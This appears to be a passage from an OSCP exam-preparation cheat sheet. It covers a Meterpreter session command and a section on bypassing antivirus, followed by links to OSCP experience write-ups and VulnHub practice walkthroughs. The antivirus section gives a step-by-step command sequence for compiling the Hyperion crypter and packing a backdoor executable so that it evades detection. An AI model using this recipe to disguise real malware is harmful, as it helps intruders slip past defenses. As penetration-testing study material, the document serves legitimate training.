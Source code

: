     -   Create a Meterpreter background session

        `background`

<span id="_51btodqc88s2" class="anchor"><span id="_Toc480741825" class="anchor"></span></span>Bypassing Antivirus Software
===========================================================================================================================

-   Crypting Known Malware with Software Protectors

    -   One such open source crypter, called Hyperion

        `cp /usr/share/windows-binaries/Hyperion-1.0.zip
        unzip Hyperion-1.0.zip
        cd Hyperion-1.0/
        i686-w64-mingw32-g++ Src/Crypter/*.cpp -o hyperion.exe
        cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libgcc_s_sjlj-1.dll .
        cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libstdc++-6.dll .
        wine hyperion.exe ../backdoor.exe ../crypted.exe`


OSCP Course Review
================================================================================================================

-   Offensive Security’s PWB and OSCP — My Experience
    [*http://www.securitysift.com/offsec-pwb-oscp/*](http://www.securitysift.com/offsec-pwb-oscp/)

-   OSCP Journey
    [*https://scriptkidd1e.wordpress.com/oscp-journey/*](https://scriptkidd1e.wordpress.com/oscp-journey/)

-   Down with OSCP
    [*http://ch3rn0byl.com/down-with-oscp-yea-you-know-me/*](http://ch3rn0byl.com/down-with-oscp-yea-you-know-me/)

-   Jolly Frogs - Tech Exams (Very thorough)

[*http://www.techexams.net/forums/security-certifications/110760-oscp-jollyfrogs-tale.html*](http://www.techexams.net/forums/security-certifications/110760-oscp-jollyfrogs-tale.html)

<span id="_pxmpirqr11x0" class="anchor"><span id="_Toc480741798" class="anchor"></span></span>OSCP Inspired VMs and Walkthroughs
================================================================================================================================

-   [*https://www.vulnhub.com/*](https://www.vulnhub.com/)
    [*https://www.root-me.org/*](https://www.root-me.org/)

-   Walk through of Tr0ll-1 - Inspired by on the Trolling found in the
    OSCP exam
    [*https://highon.coffee/blog/tr0ll-1-walkthrough/*](https://highon.coffee/blog/tr0ll-1-walkthrough/)
    Another walk through for Tr0ll-1
    [*https://null-byte.wonderhowto.com/how-to/use-nmap-7-discover-vulnerabilities-launch-dos-attacks-and-more-0168788/*](https://null-byte.wonderhowto.com/how-to/use-nmap-7-discover-vulnerabilities-launch-dos-attacks-and-more-0168788/)
    Taming the troll - walkthrough
    [*https://leonjza.github.io/blog/2014/08/15/taming-the-troll/*](https://leonjza.github.io/blog/2014/08/15/taming-the-troll/)
    Troll download on Vuln Hub
    [*https://www.vulnhub.com/entry/tr0ll-1,100/*](https://www.vulnhub.com/entry/tr0ll-1,100/)
